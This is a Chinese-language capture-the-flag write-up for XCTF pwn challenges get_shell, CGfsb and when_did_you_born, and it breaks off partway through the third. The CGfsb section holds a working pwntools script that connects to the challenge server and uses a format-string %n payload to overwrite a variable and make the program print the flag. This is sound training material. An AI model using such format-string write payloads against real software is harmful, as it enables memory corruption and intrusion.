 # xctf
## 0x01 get_shell

> 题目描述: 运行就能拿到shell呢，真的

直接使用nc连接远程端口就可返回shell  
![2020-06-05-19-56-28](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-05-19-56-28.png)

## 0x02 CGfsb
> 题目描述: 菜鸡面对着pringf发愁，他不知道prinf除了输出还有什么作用 
 
首先使用`checksec`查看文件安全机制  
![2020-06-05-20-00-55](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-05-20-00-55.png)

关于checksec的使用可以参考[checksec工具使用](https://xsblog.xyz/2020/05/29/xctf/checksec%E4%BD%BF%E7%94%A8/)    

将程序拖入IDA查看反汇编代码  
![2020-06-05-20-06-05](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-05-20-06-05.png)  
显然在程序的第23行存在`格式化字符串漏洞`,而且发现关键代码`system("cat flag)`,条件是使得`pwnme`值为8；  
关于格式化字符串漏洞可参考[格式化字符串漏洞](https://veritas501.space/2017/04/28/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E5%AD%A6%E4%B9%A0/)

利用格式化字符串漏洞修改`pwnme`的值  
**解题脚本:**
```python
#!/usr/bin/python
#coding=utf-8

from pwn import *
io = remote('220.249.52.133','33985')
#context.log_level = 'debug'
io.recvuntil('name:\n')
io.sendline('aa')
io.recvuntil('please:\n')
pwnme_addr = p32(0x0804a068)    # 获取pwnme的地址
payload = pwnme_addr + '%4c%10$n'   # 构造payload
io.sendline(payload)
print io.recvall()  # recvall()输出所有，直到EOF
```
关于pwn工具的使用可参考[pwntools使用](https://bbs.pediy.com/thread-247217.htm)

## 0x03 when_did_you_born

> 题目描述: 只要知道你的年龄就能获得flag，但菜鸡发现无论如何输入都不正确，怎么办

查看安全机制  
![2020-06-05-21-04-03](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-05-21-04-03.png)  

拖入IDA查看反汇编代码  
![2020-06-05-21-10-40](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-05-21-10-40.png)  
